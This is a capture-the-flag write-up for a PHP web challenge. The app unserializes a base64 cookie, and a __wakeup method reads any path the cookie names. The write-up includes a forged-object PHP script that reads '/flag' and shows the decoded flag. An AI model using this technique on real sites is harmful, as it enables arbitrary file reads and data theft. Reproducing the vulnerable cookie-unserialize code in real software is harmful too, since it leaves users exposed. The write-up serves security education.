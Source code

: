 # ## Penguim - (De)Serial Killer

**Author:** randN
**Category:** web
**Difficulty:** easy

## Description
```
Mr Penguim published a website where you can create an account and acess your profile, but be careful because the path to his profile picture is always staring at you.
```

## Solve

The challenge source code was provided, including the Dockerfile. We could look at the source code first, and try to access the application and see how it works. Accessing the URL, the first page served:

![Alt text](https://github.com/uac-ctf/UA-CSW-CTF2022-Writeups/blob/master/web/deserial_killer/images/home_page.png?raw=true)

Acessing the register link:

![Alt text](https://github.com/uac-ctf/UA-CSW-CTF2022-Writeups/blob/master/web/deserial_killer/images/register_page.png?raw=true)

After creating an account and a successful login:

![Alt text](https://github.com/uac-ctf/UA-CSW-CTF2022-Writeups/blob/master/web/deserial_killer/images/login_success.png?raw=true)

we are served an image and we also get a cookie:

![Alt text](https://github.com/uac-ctf/UA-CSW-CTF2022-Writeups/blob/master/web/deserial_killer/images/cookie_user.png?raw=true)

The cookie look like something that was encoded in Base64, and by the looks of it a PHP object serialized, because of the first characters `Tz0` that is `O:` decode. All objects serialized in PHP have the same format, and the only thing that changes are the attributes type (int, string, ...) and the size of them.

```bash
echo -n 'Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6InRlc3RlciI7czoxMjoicGljdHVyZV9wYXRoIjtzOjMxOiIvdmFyL3d3dy9odG1sL2F2YXRhci9hdmF0YXIuanBnIjtzOjExOiJwcm9maWxlX3BpYyI7Tjt9' | base64 -d
# Returns
O:4:"User":3:{s:8:"username";s:6:"tester";s:12:"picture_path";s:31:"/var/www/html/avatar/avatar.jpg";s:11:"profile_pic";N;}
```

By the looks of it there is serialization is being used in the web app, but we can confirm that by analyzing the source code. In the index.php:

```php
$tmp = base64_encode(serialize(new User($row['username'], $row['pic_path'])));
setcookie("user", $tmp);
```

that is later used in the home.php file.

```php
$user_obj = unserialize(base64_decode($_COOKIE['user']));
```

The object that is serialized:

```php
class User {
    public $username;
    public $picture_path;
    public $profile_pic;

    public function __construct($name, $path) {
        $this->username = $name;
        $this->picture_path = $path;
    }

    public function __wakeup() {
        $this->profile_pic = file_get_contents($this->picture_path);
    }
}
```

If you go to [unserialize](https://www.php.net/manual/en/function.unserialize) function documentation, we will find that "If the variable being unserialized is an object, after successfully reconstructing the object PHP will automatically attempt to call the [\_\_unserialize()](https://www.php.net/manual/en/language.oop5.magic.php#object.unserialize) or [\_\_wakeup()](https://www.php.net/manual/en/language.oop5.magic.php#object.wakeup) methods (if one exists)."

So, if we create an object where we control the *picture_path* variable, we will be able to get the contents of any file, because there is no protection against Path Traversal.

To create the desired object, we can create a simple PHP script, like so

```php
<?php
class User {
    public $username;
    public $picture_path;
    public $profile_pic;

    public function __construct($name, $path) {
        $this->username = $name;
        $this->picture_path = $path;
    }
}

print(base64_encode(serialize(new User('tester', '/flag'))));
?>
```

We can fing the flag location inside the Dockerfile. Now we can use the payload generated, change the *user* cookie and reload the page. The image does not render now, because the file is not an image, looking into the page source

![Alt text](https://github.com/uac-ctf/UA-CSW-CTF2022-Writeups/blob/master/web/deserial_killer/images/page_source.png?raw=true)

and decoding the Base64

```bash
echo -n 'Q1RGVUF7cEhwX3VuczNyMWFsaVplX2sxbmd9Cg==' | base64 -d
# We get the flag
CTFUA{pHp_uns3r1aliZe_k1ng}
```

### Some good resources if you want to learn more

<https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a>

<https://book.hacktricks.xyz/pentesting-web/deserialization>
